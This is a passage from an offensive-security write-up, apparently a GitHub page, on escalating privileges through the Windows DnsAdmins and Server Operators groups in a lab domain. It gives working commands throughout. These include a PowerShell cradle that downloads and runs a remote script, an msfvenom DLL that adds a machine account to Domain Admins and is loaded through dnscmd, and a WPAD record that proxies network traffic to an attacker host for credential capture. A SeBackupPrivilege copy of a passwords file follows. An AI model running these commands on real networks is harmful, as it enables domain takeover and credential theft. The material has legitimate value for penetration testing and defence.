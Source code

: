 ```
AccessControlType : AccessAllowed
IdentityReference : NT AUTHORITY\SERVICE

ServiceRights     : QueryConfig, ChangeConfig, QueryStatus, EnumerateDependents, Start, Stop, PauseContinue, Interrogate, UserDefinedControl, Delete, ReadControl, WriteDac, WriteOwner
AccessControlType : AccessAllowed
IdentityReference : BUILTIN\Server Operators
```

It's still possible to load a DLL and wait until the next reboot, or if the account has been given additional privileges it would restart the service right away.

```
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/Kevin-Robertson/Powermad/master/Powermad.ps1')
New-MachineAccount -MachineAccount cube -Password $(ConvertTo-SecureString 'Password123!' -AsPlainText -Force) -Domain htb.local -DomainController dc.htb.local
msfvenom -p windows/x64/exec cmd='net group "domain admins" cube$ /add /domain' -f dll > dns.dll
dnscmd.exe dc.htb.local /config /serverlevelplugindll \\10.0.0.7\tmp\dns.dll
```

### RCE By Creating WPAD Record
A way better way to abuse the DnsAdmins privileges IMO is to create a wpad record.
As DnsAdmins, we can disable the global query block security function which on default settings, blocks this type of attack. 
Global Query Blocklist was implemented to prevent DNS resolves for WPAD and isatap records because any domain user can create a computer object or DNS records using those names.
Once we have disabled GlobalQueryBlockList and created a wpad record, every machine with wpad running with default settings will have their traffic proxied through our attacker machine, the credential exposure can be huge.
It will be like the good old days before MS16-077.

```
Set-DnsServerGlobalQueryBlockList -Enable $false -ComputerName dc.htb.local
Add-DnsServerResourceRecordA -Name wpad -ZoneName htb.local -ComputerName dc.htb.local -IPv4Address 10.0.0.7
```
## Server Operators
Microsoft describes the Server operators group as someone who can create and delete network shared resources, start and stop services, back up and restore files, format the hard disk drive of the computer

### LPE Reading Sensitive Files
```
https://github.com/giuliano108/SeBackupPrivilege 
Import-Module .\SeBackupPrivilegeCmdLets.dll
Import-Module .\SeBackupPrivilegeUtils.dll
Copy-FileSeBackupPrivilege C:\users\cube0x0\desktop\passwords.txt C:\windows\temp\pass -Overwrite
```

### LPE Modifying Services
Server Operators has write permissions to a lot of services by default, we can enumerate which this way
